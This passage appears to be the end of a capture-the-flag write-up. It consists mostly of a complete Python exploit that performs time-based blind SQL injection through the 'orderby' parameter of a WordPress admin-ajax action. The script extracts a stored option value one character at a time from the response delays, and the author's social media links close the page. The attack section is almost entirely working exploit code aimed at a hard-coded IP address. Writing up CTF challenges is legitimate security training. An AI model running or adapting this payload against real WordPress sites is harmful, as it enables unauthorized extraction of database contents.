 **Exploitation:**

```python
import requests
import time
from string import ascii_lowercase, ascii_uppercase, digits

URL = 'http://100.25.255.51:9097/wp-admin/admin-ajax.php?action=get_link_data'
charset = ascii_uppercase + ascii_lowercase + digits + '}{_'

class Exploit:
	def __init__(self, url=URL):
		self.url = url

	def blind(self):
		flag = ""
		position = 1
		while "}" not in flag:
			for char in charset:
				start = time.time()

				# Dump Flag
				payload = f'(SELECT * FROM(SELECT IF(ASCII(SUBSTRING((SELECT option_value FROM wp_options limit 1 offset 123),{position},1))={ord(char)},sleep(3),0))a) DESC--'

				data = {'action':'get_link_data','link_name':'','order':'DESC','orderby':f'link_id,{payload}'}
				getLinkData = requests.post(URL, data=data)

				end = time.time()
				timebased = int(end-start)
				if timebased >= 3:
					flag += char
					position += 1
					print(f'[+] Found Flag: {flag}')
				else:
					pass
		return f'[+] Found Flag: {flag}'

if __name__ == '__main__':
	run = Exploit()
	print(run.blind())
```

Run the exploit, and the FLAG was successfully retrieved.

[Linkedin]: https://www.linkedin.com/in/muhammad-ichwan-banua/
[Medium]: https://banua.medium.com
[Github]: https://github.com/banuaa
[Youtube]: https://www.youtube.com/@muhammad.iwn-banua
[Instagram]: https://www.instagram.com/muhammad.iwn